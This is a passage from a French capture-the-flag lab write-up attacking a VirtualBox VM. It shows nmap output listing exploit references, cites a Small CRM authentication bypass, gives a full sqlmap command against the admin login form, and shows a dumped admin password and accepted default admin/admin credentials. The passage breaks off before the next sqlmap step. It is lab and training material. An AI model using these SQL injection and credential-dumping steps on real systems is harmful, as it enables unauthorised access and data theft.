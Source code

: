 ```console
|       PACKETSTORM:181114      9.8     https://vulners.com/packetstorm/PACKETSTORM:181114      *EXPLOIT*
--- snip ---
|       B8198D62-F9C8-5E03-A301-9A3580070B4C    4.3     https://vulners.com/githubexploit/B8198D62-F9C8-5E03-A301-9A3580070B4C  *EXPLOIT*
|       1337DAY-ID-36854        4.3     https://vulners.com/zdt/1337DAY-ID-36854        *EXPLOIT*
|       PACKETSTORM:164501      0.0     https://vulners.com/packetstorm/PACKETSTORM:164501      *EXPLOIT*
|       PACKETSTORM:164418      0.0     https://vulners.com/packetstorm/PACKETSTORM:164418      *EXPLOIT*
|_      05403438-4985-5E78-A702-784E03F724D4    0.0     https://vulners.com/githubexploit/05403438-4985-5E78-A702-784E03F724D4  *EXPLOIT*
33060/tcp open  mysqlx  MySQL X protocol listener
MAC Address: 08:00:27:9A:06:51 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.80 seconds
```

Commençons par la zone `/admin` qui a le titre HTML `Small CRM Projects`. Une recherche sur exploit-db remonte plusieurs vulnérabilités pour un logiciel nommé `Small CRM`, dont une faille de bypass d'authentification : [Small CRM 2.0 - Authentication Bypass - PHP webapps Exploit](https://www.exploit-db.com/exploits/47874).

Effectivement, on peut bypasser l'authentification de manière classique, mais une fois connecté, je ne trouve rien pour faire levier pour obtenir un shell. Je lance donc `sqlmap` sur la faille SQL :

```bash
sqlmap  -u http://192.168.56.122/admin/index.php --data "email=yolo&password=yolo&login=" --dbms mysql --risk 3 --level 5
```

Les identifiants `admin` sont dans une table spécifique alors que les autres comptes dans une autre table :

```
Database: crm
Table: admin
[1 entry]
+----+--------+--------------+
| id | name   | password     |
+----+--------+--------------+
| 1  | admin  | asdfghjklXXX |
+----+--------+--------------+
```

J'ai ensuite énuméré dans ce dossier, mais toujours rien. Je suis ensuite passé sur le `store ̣`. Ce dernier a une section d'administration et `admin` / `admin` est accepté.

On peut éditer et supprimer des entrées pour des livres et uploader des fichiers... sauf que l'upload est cassé, les fichiers n'apparaissent pas à l'endroit où ils sont censés se retrouver.

Je suis donc passé une nouvelle fois à sqlmap :
